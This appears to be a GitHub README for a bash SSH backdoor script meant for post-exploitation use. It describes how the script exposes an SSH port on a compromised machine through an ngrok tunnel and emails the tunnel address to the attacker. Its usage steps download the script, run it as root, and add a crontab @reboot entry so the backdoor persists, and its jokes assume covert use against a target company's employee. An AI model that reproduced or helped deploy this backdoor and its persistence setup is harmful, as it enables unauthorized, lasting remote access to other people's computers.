 ### SSH BACKDOOR

This is a bash script that gives the attacker `ssh access` to a compromised host in a private network. The script uses a set of linux tools to 
set up an SSH port and uses ngrok for tunneling and the address --that is always randomized is sent to the attackers server, in this 
case the address is sent to our email address.There is a lot of footprint left behind.Please do not use this script for illegal purposes :tada:
 
##### __The following are some of the conditions that should be met for this script to work.__

- [x] The attacker should have physical access to the compromised machine and they should be root or they should have sudo priviledges.
- [x] The script uses `./ngrok` therefore familiarity with [ngrok](https://ngrok.com) is encouraged.
- [x] The compromised machine or host should be connected to an internet connection.
- [x] set up `ssmtp` to send email to our email address -- using gmail in this case :)


##### __The following is a scenarion or use case were the script can be used__

> *Imagine you as the attacker have physical access to a personal computer (of an employee of a target company) that was weakly configured giving us root. This computer is in 
> the home network therefore meaning that it does not face the public internet. You want to constanly get access to this machine, right? Running the script will 
> return an address that will enable you to connect remotely. We can make this fun by running the script as a cron-job or service on boot therefore getting 
> connections wherenever the computer is booted. Amazing or rather dangerous right :)*

**_NB_**: The script uses the `/var/tmp/` directory for its operations and logs errors that are sent back to the attacker.

- The `/etc/ssmtp/ssmtp/.conf` file should be configured since this is where ssmtp checks when sending your email. This is where the sender email 
address and the mail server is with its port is listed.

#### US4GE

1. To download the file you can use `wget` or `curl`. __First run the script to make sure everything is installed 😄__
```
wget https://raw.githubusercontent.com/mutur4/Hacking-Scripts/main/post-exploitation/ssh-backdoor/backdoor.sh
chmod +x backdoor.sh
sudo crontab -e 
```
2. Add the following line below the crontab file opened for editing 

`@reboot /usr/bin/sleep 90; /full/path/backdoor.sh`

3. Lets just sit and wait hope we dont get caught :shipit:
